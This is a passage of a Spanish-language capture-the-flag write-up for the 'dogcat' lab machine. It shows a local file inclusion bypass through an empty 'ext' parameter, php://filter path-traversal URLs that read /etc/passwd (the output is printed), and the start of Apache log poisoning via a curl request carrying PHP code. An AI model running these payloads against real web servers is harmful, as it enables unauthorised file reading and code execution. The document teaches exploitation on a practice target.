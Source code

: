 ~~~php
</html>
~~~

- Aquí hay un par de cosas interesantes. 
- Para empezar, tenemos una variable ``$ext`` que al parecer se encarga de concatenar la extensión `.php` a los archivos.
- Y como suponíamos, se valida que exista la cadena dog o cat. 
- Hay un fallo de seguridad terrible ya que además de pedir `view` como argumento por GET, también pide `ext` como argumento.
- Esto está muy xd pero bueno, si le concatenamos el argumento y lo dejamos vacío podremos saltarnos este paso de seguridad:

~~~
http://dogcat.thm/?view=php://filter/convert.base64-encode/resource=dog/../../../../../etc/passwd&ext=
~~~

- Y podemos revertir la data en base64:

~~~bash
❯ cat data | base64 -d | sponge
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
~~~

- Descubrí que podemos ver los logs sin necesidad de wrappers, visitando la siguiente URL:

~~~
http://dogcat.thm/?view=dog/../../../../../../var/log/apache2/access.log&ext=
~~~

- Esto me da una idea, podemos realizar un `Log Poisoning`.
- Para esto, primeramente mandaremos una función `phpinfo()` como `User-Agent` para ver si esta parte no está sanitizada:

~~~bash
❯ curl -X GET 'http://dogcat.thm/?view=dog/../../../../../../var/log/apache2/access.log&ext=' --data '<?php phpinfo(); ?>'
~~~
